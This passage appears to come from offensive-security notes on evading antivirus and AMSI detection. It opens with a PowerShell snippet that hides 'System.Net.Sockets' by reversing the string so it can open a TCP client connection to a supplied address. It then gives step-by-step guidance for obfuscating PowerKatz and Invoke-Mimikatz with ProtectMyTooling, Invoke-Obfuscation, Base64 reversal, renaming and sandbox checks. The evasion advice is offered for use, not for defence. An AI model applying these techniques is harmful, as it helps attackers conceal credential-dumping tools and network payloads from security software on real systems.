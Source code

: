     ```powershell
    $String = "stekcoS.teN"
    $class = ([regex]::Matches($String,'.','RightToLeft') | ForEach {$_.value}) -join ''
    $client = New-Object System.$class.TCPClient($IPAddress,$Port)
    ```

### **ProtectMyTooling**

ProtectMyTooling obfuscates PowerShell payloads (like PowerKatz DLL) to prevent signature detection by antivirus engines.

**How It Works:**

* Obfuscates DLLs (e.g., PowerKatz) by encrypting and encoding them.
* Converts the obfuscated payload into Base64 and reverses the string to bypass static detections.

**Usage:**

* Rebuild PowerKatz DLL from Mimikatz source.
* Use ProtectMyTooling to obfuscate the DLL.
* Convert the DLL to Base64 and reverse the string for further obfuscation.

**Steps:**

1. Rebuild and obfuscate the DLL with ProtectMyTooling.
2. Convert to Base64 and reverse the string.
3. Integrate the reversed string into the PowerShell script for execution.

### **Invoke-Obfuscation**

Invoke-Obfuscation is a tool for fully obfuscating PowerShell scripts, including AMSI bypasses, by randomizing and modifying strings, functions, and the overall script structure.

**How It Works:**

* Randomizes function names, strings, and syntax to avoid static signature detection.
* Useful for obfuscating AMSI bypass code and PowerShell payloads.

**Usage:**

```bash
Invoke-Obfuscation.ps1
```

**Example:**\
Use this tool to obfuscate scripts for AMSI bypass or for payloads like `Invoke-Mimikatz`.

### **Script Modification Examples**

#### **Invoke-Mimikatz**

Highly detected script. Requires significant modification to evade detection.

**Techniques:**

1. Remove all default comments.
2. Rename functions and variables (e.g., rename `DumpCreds` to `DC`).
3. Modify API calls (e.g., `VirtualProtect`, `WriteProcessMemory`).
4. Obfuscate PEBytes content using PowerKatz DLL and packers.
5. Implement reverse functions for PEBytes to bypass static detections.
6. Add sandbox checks to waste analysis resources (e.g., check for VMware or VirtualBox).
